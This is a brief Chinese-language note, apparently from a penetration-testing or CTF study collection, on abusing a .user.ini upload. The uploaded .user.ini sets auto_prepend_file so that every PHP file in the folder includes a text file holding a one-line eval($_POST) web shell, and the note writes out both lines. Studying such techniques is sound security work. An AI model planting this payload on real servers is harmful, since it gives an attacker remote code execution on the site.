 # 文件上传

## 1、.user.ini文件上传

### 1、上传利用前提

* 使用.user.ini的前提是含有.user.ini的文件夹下需要有正常的php文件，否则也不能包含了

### 2、利用方法

* 上传.user.ini文件`.user.ini`，只要在文件中写上`auto_prepend_file=1.txt`,所有文件都可以包含它，然后1.txt中内容为`<?php eval($_POST['a']);`